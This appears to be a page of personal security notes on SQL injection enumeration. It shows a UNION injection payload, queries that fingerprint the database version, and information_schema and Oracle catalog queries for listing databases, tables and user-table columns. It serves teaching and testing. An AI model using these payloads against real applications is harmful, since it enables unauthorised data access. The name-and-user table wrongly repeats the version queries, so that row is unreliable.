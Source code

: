 ## Querying the Database Type and Version
You can potentially identify both the database type and version by injecting provider-specific queries to see if one works. The following are some queries to determine the database version for some popular database servers:

| Database type    | Query                     |
| ---------------- | ------------------------- |
| Microsoft, MySQL | `SELECT @@version`        |
| Oracle           | `SELECT * FROM v$version` |
| PostgreSQL       | `SELECT version()`        |

For example, you could use a `UNION` attack with the following input `' UNION SELECT @@version--`. Which might return the following output. In this case, you can confirm that the database is Microsoft SQL Server and see the version used:
```txt
Microsoft SQL Server 2016 (SP2) (KB4052908) - 13.0.5026.0 (X64)
Mar 18 2018 09:11:49
Copyright (c) Microsoft Corporation
Standard Edition (64-bit) on Windows Server 2016 Standard 10.0 <X64> (Build 14393: ) (Hypervisor
```
## Query the Database Name and User
You can potentially identify both the database name and user by injecting provider-specific queries to see if one works. The following are some queries for some popular database servers:

| Database type | Query                     |
| ------------- | ------------------------- |
| MySQL         | `SELECT database()`       |
| Oracle        | `SELECT * FROM v$version` |
| PostgreSQL    | `SELECT version()`        |
## Enumerating using `information_schema` Database
The `information_schema` database contains metadata about the database, tables, and columns present on the server, making it a crucial step for attackers to view or enumerate when performing SQL injection vulnerabilities.
> Note: Most databases have an `information_schema` present, except for Oracle databases.

There are a couple of ways an attacker can use the `information_schema` database to fingerprint the database:
### Query `schemata` Table to List All Databases
The table `schemata` in the `informatioN-schema` database contains information about all databases on the server. The `schema_name` column contains all the databases names currently present.
```sql
SELECT 1,schema_name,3,4 FROM information_schema.schemata-- -
```
> Reminder: We are adding an extra dash (-) at the end, to show you that there is a space after (--).

>Note: This enumeration section is usually done by using the UNION operator. To know more about UNION attacks, refer to this [page](obsidian://open?vault=security-notes&file=Offensive%20Security%2FWeb%20Application%20Security%2FServer-side%20Vulnerabilities%2FSQL%20Injection%2FUNION%20Attacks%2FIntroduction).
### Listing Contents of Databases
An attacker can also query the `tables` in the `information_schema` database to view information about all the tables throughout the database. This table contains multiple columns, but the `TABLE_NAME` and `TABLE_SCHEMA` are the most important ones as they store the table names and the table's associated database.
```sql
SELECT * FROM information_schema.tables
```
This returns the following output:
```txt
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  TABLE_TYPE
=====================================================
MyDatabase     dbo           Products    BASE TABLE
MyDatabase     dbo           Users       BASE TABLE
MyDatabase     dbo           Feedback    BASE TABLE
```
Additionally, you can also inspect the table structure by submitting the following query:
```sql
SELECT * FROM information_schema.columns WHERE table_name='Users'
```
This returns the following output:
```txt
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  COLUMN_NAME  DATA_TYPE
=================================================================
MyDatabase     dbo           Users       UserId       int
MyDatabase     dbo           Users       Username     varchar
MyDatabase     dbo           Users       Password     varchar
```
### Listing Contents of Oracle Databases
On Oracle, you can find the same information as follows:
- You can list tables by querying `all_tables`:
```sql
SELECT * FROM all_tables
```
- You can list columns by querying `all_tab_columns`:
```sql
SELECT * FROM all_tab_columns WHERE table_name = 'USERS'
```